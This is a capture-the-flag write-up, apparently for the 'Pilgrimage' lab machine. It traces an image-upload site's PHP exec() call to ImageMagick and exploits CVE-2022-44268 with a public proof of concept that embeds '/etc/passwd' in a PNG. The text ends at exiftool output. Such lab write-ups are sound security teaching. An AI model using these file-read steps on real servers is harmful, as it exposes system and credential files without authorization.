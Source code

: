 We have a very specific command that can be exploited:

    exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime)

`exec()` is the PHP command to run an external program. Also, periods `.` in PHP just concatenates multiple strings together, some of which are `$` string variables that were prepared by `bulletproof`.

Example:

Assuming the uploaded file is named UPLOAD.jpg which will be renamed a unique ID, the command that will be called is:

    /var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/UPLOAD.jpg -resize 50% /var/www/pilgrimage.htb/shrunk/RENAMED.jpg

What is this magick binary that is being called by the CLI?

This is the ImageMagick package which is used widely for various image editing functions. In this case, the website uses it to shrink images `-resize 50%`.

A search shows that it is vulnerable to [CVE-2022-44268 Arbitrary File Read](https://www.metabaseq.com/imagemagick-zero-days/)

> When ImageMagick performs operations such as resizing on a PNG file, it may include the content of a system file, given that the magick binary has the necessary permissions to read it. This vulnerability arises due to the mishandling of textual chunks within PNG files.<br><br>A malicious actor can exploit this vulnerability by crafting a PNG file or using an existing one and adding a textual chunk type (tEXt). These chunks consist of a keyword and a text string. In this case, if the keyword matches the string "profile" (without quotes), ImageMagick will interpret the accompanying text string as a filename and attempt to load its content as a raw profile. As a result, when the resized image is downloaded, it will contain the content of the remote file specified by the attacker."""

In other words, we can specify any file path as a string to the `profile` tag of the image metadata and ImageMagick will attempt to read and return the contents of that file back inside the processed .png metadata.

Since the webpage allows image upload and download, we can exploit this to upload our malicious .png, process it, and download the contents back.

There are many PoCs that do this. I used the one by [kljunowsky](https://github.com/kljunowsky/CVE-2022-44268) for its simplicity:

    python3 CVE-2022-44268.py --image imagetopoison.png --file-to-read /etc/hosts 

All its doing is adding a new `tExt` chunk to the image metadata.

Let's try it on the `/etc/passwd` file and then check the our poisoned image using `exiftool`
    
    python3 CVE-2022-44268.py --image imagetopoison.png --file-to-read /etc/passwd

    exiftool output.png

    >>
    ExifTool Version Number         : 12.40
    File Name                       : output.png
    Directory                       : .
    File Size                       : 13 KiB
    File Modification Date/Time     : 2023:10:10 22:51:27+08:00
    File Access Date/Time           : 2023:10:10 22:51:25+08:00
    File Inode Change Date/Time     : 2023:10:10 22:51:27+08:00
    File Permissions                : -rw-rw-r--
    File Type                       : PNG
    File Type Extension             : png
    MIME Type                       : image/png
    Image Width                     : 1920
    Image Height                    : 1080
    Bit Depth                       : 8
    Color Type                      : RGB
    Compression                     : Deflate/Inflate
    Filter                          : Adaptive